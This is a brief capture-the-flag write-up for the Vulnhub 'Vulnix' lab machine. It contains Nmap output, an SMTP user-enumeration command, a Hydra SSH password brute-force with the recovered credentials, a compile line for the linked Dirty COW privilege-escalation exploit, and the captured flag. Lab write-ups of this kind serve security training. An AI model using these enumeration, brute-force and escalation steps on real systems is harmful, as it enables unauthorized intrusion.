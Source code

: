 <h1>HackLAB: Vulnix Write-up</h1>

<h2>Nmap</h2>

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
79/tcp    open  finger     Linux fingerd
110/tcp   open  pop3       Dovecot pop3d
111/tcp   open  rpcbind    2-4 (RPC #100000)
143/tcp   open  imap       Dovecot imapd
512/tcp   open  exec       netkit-rsh rexecd
513/tcp   open  login
514/tcp   open  shell      Netkit rshd
993/tcp   open  ssl/imaps?
2049/tcp  open  nfs_acl    2-3 (RPC #100227)
39706/tcp open  mountd     1-3 (RPC #100005)
45298/tcp open  nlockmgr   1-4 (RPC #100021)
45722/tcp open  mountd     1-3 (RPC #100005)
50907/tcp open  status     1 (RPC #100024)
54193/tcp open  mountd     1-3 (RPC #100005)
```

<h3>Enumerating users</h3>

```smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.123.130```


**BruteForcing SSH**

``` 
hydra -l user -P rockyou.txt 192.168.123.130 ssh
username : user
password : letmein
```


<h2>Privilege Escalation :</h2>

Exploit : https://www.exploit-db.com/exploits/40839

Compile Exploit in your system

```gcc -pthread dirty.c -o dirty32 -lcrypt -m32```

Transfer to vulnix and run the exploit

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/HackLAB%3A%20Vulnix/Images/priv%20esc%20and%20flag.png)

flag : cc614640424f5bd60ce5d5264899c3be

